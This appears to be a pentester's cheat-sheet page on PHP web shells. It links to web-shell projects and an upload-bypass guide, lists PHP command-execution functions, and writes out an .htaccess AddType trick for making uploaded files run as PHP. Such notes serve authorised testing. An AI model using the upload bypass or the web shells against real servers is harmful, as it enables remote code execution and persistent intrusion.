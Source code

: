### :open_file_folder: Simple-PHP-Web-Shell

```
https://github.com/artyuum/Simple-PHP-Web-Shell/blob/master/index.php
```

### :open_file_folder: PHP HTTP Server

```shell
php -S <host ip>:<port>
```

### :open_file_folder: phpinfo

`disable_functions` = disabled commands

```
system
exec
shell_exec
passthru
popen
proc_open
pcntl_exec
```

### :open_file_folder: upload-bypasses

```
https://github.com/six2dez/pentest-book/blob/master/enumeration/web/upload-bypasses.md
```

We can attempt to upload the `.htaccess` file to configure the server to execute our custom file extensions as PHP scripts.

```shell
# The uploaded file may not be visible in the upload directory.
echo "AddType application/x-httpd-php <custom file extension>" > .htaccess
# example
echo "AddType application/x-httpd-php .abc" > .htaccess
```

### :open_file_folder: Single-file PHP shell

Combine bypass, such as phar

```
https://github.com/flozz/p0wny-shell/tree/master
```

### :open_file_folder: Joomla webshell plugin for RCE

```
https://github.com/p0dalirius/Joomla-webshell-plugin
```
